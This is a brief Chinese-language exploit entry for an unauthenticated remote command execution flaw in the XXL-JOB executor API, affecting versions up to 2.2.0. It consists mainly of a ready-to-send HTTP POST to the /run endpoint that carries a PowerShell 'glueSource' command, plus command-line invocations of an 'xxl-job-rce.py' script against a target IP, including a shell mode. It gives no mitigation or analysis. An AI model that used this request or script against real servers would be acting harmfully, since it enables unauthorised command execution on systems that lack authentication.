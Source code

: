 ## 漏洞概述

默认情况下XXL-JOB的API接口没有开启认证，未经授权的攻击者可以构造一个恶意请求，实现远程命令执行。

## 影响范围

```http
XXL-JOB <= 2.2.0
```

## POC

```
Goby
```
## EXP

```http
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc", #执行的bash语句
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```
```bash
python3 xxl-job-rce.py 192.168.1.1 -c calc
python3 xxl-job-rce.py 192.168.1.1 -c calc -m shell -p 9999
```

## 参考链接

https://github.com/jas502n/xxl-job
